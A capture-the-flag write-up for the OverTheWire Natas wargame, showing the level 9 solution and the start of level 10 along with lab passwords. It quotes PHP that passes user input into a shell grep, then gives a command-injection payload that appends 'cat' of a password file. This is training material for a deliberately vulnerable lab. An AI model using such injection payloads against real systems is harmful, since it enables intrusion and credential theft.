 `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t`

---

## Natas Level 9 → Level 10
(Updated: 13 August 2025)

**Credentials**
- **Username:** `natas9`
- **Password:** `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t`

**Connection**

Level url: [http://natas9.natas.labs.overthewire.org/](http://natas9.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - You can access the code by doing the shortcut `Cmd + Shift + C` (for Mac) or `Ctrl + Shift + C` (for Windows)
2. Step 2 - You can see there is a `Search bar` so we have to do something with it to get the password. Let's `View sourcecode`
3. Step 3 - There is a PHP code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
**So, it's using our input to get data in the `dictionary.txt` file. From there we absolutely can do some `command injeciton` to get the password.**

4. Step 4 - Add `test; cat /etc/natas_pass/natas10 #` to get the password.
- `;`: to end the first command and run the second.
- `#`: to ignore any code behind the `cat`.
5. Step 5 - Take the password to the next level.

**Next Level Password**

`t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`

---

## Natas Level 10 → Level 11
(Updated: 13 August 2025)

**Credentials**
- **Username:** `natas10`
- **Password:** `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`
